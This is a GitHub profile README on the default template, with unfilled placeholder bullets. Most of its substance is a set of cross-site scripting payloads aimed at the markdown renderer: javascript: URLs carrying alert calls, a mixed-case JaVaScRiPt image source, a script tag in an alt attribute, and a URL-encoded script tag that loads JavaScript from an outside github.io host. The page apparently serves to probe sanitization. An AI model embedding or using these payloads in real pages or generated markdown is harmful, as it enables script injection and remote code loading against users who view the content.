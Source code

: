 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&javascript:alert(1);)
![
<img src="JaVaScRiPt:alert('XSS')" alt="<SCRIPT>alert()</SCRIPT>">
<IMG SRC= img/%3cscript+src='https://r89shi.github.io/teste.js'%3e >

](()
